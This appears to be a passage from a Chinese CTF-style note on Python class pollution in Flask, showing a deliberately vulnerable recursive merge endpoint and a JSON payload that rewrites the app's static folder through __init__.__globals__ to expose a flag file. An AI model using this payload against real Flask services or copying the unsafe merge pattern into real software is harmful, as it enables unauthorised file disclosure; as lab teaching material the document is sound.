 #### \_static\_url\_path污染

```python
@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "flag in ./flag but heres only static/index.html"
```

```python
payload={
    "__init__":{
        "__globals__":{
            "app":{
                "_static_folder":"./"
            }
        }
    }
}
```

#### os.path.pardir

```python
#app.py

from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "flag in ./flag but heres only static/index.html"

app.run(host="0.0.0.0")
```
